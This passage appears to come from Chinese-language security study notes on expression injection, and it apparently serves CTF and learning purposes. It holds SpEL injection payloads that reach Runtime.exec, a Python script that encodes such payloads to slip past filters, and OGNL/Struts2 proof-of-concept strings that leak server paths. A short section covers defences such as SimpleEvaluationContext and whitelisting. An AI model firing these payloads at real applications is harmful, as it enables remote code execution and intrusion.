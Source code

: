 ```
''['class'].forName('java.lang.Runtime').getDeclaredMethods()[15].invoke(''['class'].forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null),'calc')

// JDK9新增的shell，还未测试
T(SomeWhitelistedClassNotPartOfJDK).ClassLoader.loadClass("jdk.jshell.JShell",true).Methods[6].invoke(null,{}).eval('whatever java code in one statement').toString()
```

数值编码型绕过
```
${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(108).concat(T(java.lang.Character).toString(115)))}

生成脚本：
message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch)

poc += ')}'

print(poc)
```


## **SpEL表达式注入防御**
使用 SimpleEvaluationContext
防御：使用时做白名单，只有需要的字符串才能当作代码执行。
在使用 SpEL 时，如果表达式是从用户输入，设置只允许一个预定义的白名单中的字符串作为 SpEL 表达式进行修复防御。对于第三方库和框架，升级到安全版本进行修复，或使用WAF进行防御。
```java
SpelExpressionParser parser = new SpelExpressionParser();
SimpleEvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();
expression.setValue(context, "payload");
```






^
^
# **OGNL(struts2)表达式注入**
记录POC，具体的内容学structs。

具体参考
<https://www.mi1k7ea.com/2020/03/16/OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#0x01-OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E5%9F%BA%E7%A1%80>
```
%{2+2}

// 获取tomcat路径
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}

// 获取web路径
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}

// 命令执行 env，flag就在其中
```